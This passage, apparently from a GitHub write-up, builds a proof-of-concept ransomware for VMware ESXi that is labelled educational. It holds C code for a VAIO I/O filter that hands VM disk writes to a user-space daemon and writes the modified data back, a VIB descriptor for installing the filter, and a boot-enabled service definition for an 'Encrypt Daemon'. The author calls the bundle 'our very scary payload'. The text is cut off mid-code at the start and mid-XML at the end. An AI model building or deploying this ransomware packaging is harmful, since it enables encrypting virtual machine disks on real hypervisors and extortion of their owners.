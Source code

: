 ```c
    // Add to end of pending list
    req->next = NULL;
    if (pending_head == NULL) {
        pending_head = req;
    } else {
        struct PendingRequest *tail = pending_head;
        while (tail->next) tail = tail->next;
        tail->next = req;
    }
    spin_unlock_irq(&req_queue_lock);
    
    // Wait for the user-space daemon to process and signal completion
    wait_event_interruptible(req->wait_q, req->completed == true);
    
    // Copy modified data back into the I/O request buffer
    memcpy(data, req->buffer, req->length);
    
    return VAIO_COMPLETE_IO;  // indicates we handled it and data is modified
}
```



### 5. VIB Packaging and Deployment

Then... to ship our very scary payload, we bundle it all as a vSphere Installation Bundle (VIB):

#### VIB Descriptor
```xml
<vib version="8.0">
    <type>bootbank</type>
    <name>ESXiEncryptFilter</name>
    <version>1.0.0-1</version>
    <vendor>EduLab</vendor>
    <summary>Educational ESXi Ransomware Filter (Encryption I/O Filter)</summary>
    <description>Proof-of-concept VAIO filter that encrypts VM disk writes (lab use only).</description>
    <acceptance-level>VMwareAccepted</acceptance-level>
    <live-install-allowed>true</live-install-allowed>
    <live-remove-allowed>true</live-remove-allowed>
    <payloads>
        <payload name="ESXiEncryptFiles" type="tgz"></payload>
    </payloads>
</vib>
```

#### Service Definition
```xml
<ConfigRoot>
   <service id="1001">
      <id>encryptdaemon</id>
      <required>false</required>
      <primordial>false</primordial>
      <transient>false</transient>
      <onboot>true</onboot>
      <escort>false</escort>
      <stopTimeout>60</stopTimeout>
      <initscript>/etc/init.d/encryptdaemon</initscript>
      <displayname>Encrypt Daemon (Ransomware PoC)</displayname>
      <description>User-space encryption service for ESXi I/O filter (educational PoC)</description>
      <order>Medium</order>
      <enabled>true</enabled>
      <ruleset></ruleset>
      <restarts>0</restarts>
```